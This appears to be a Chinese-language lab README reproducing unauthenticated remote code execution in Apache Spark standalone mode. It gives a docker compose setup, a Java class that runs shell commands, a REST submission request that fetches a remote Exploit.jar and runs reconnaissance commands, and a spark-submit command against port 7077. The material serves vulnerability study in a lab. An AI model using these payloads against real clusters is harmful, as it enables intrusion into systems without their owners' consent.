


# Apache Spark 未授权访问导致远程代码执行

Apache Spark 是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动 ACL（访问控制），我们将可以在集群中执行任意代码。

参考链接：

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## 漏洞环境

执行如下命令，将以 standalone 模式启动一个 Apache Spark 集群，集群里有一个 master 与一个 slave：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 master 的管理页面，访问 `http://your-ip:8081` 即可看到 slave 的管理页面。

## 漏洞利用

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

1. 利用 REST API
2. 利用 submissions 网关（集成在 7077 端口中）

应用可以是 Java 或 Python，就是一个最简单的类，如（参考链接 1）：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

将其编译成 JAR，放在任意一个 HTTP 或 FTP 上，如 `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`。

### 用 REST API 方式提交应用

standalone 模式下，master 将在 6066 端口启动一个 HTTP 服务器，我们向这个端口提交 REST 格式的 API：

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

其中，`spark.jars` 即是编译好的应用，mainClass 是待运行的类，appArgs 是传给应用的参数。



返回的包中有 submissionId，然后访问 `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：



注意，提交应用是在 master 中，查看结果是在具体执行这个应用的 slave 里（默认 8081 端口）。实战中，由于 slave 可能有多个。

### 利用 submissions 网关

如果 6066 端口不能访问，或做了权限控制，我们可以利用 master 的主端口 7077，来提交应用。

方法是利用 Apache Spark 自带的脚本 `bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的 master 参数是 rest 服务器，这个脚本会先尝试使用 rest api 来提交应用；如果发现不是 rest 服务器，则会降级到使用 submission gateway 来提交应用。

查看结果的方式与前面一致。
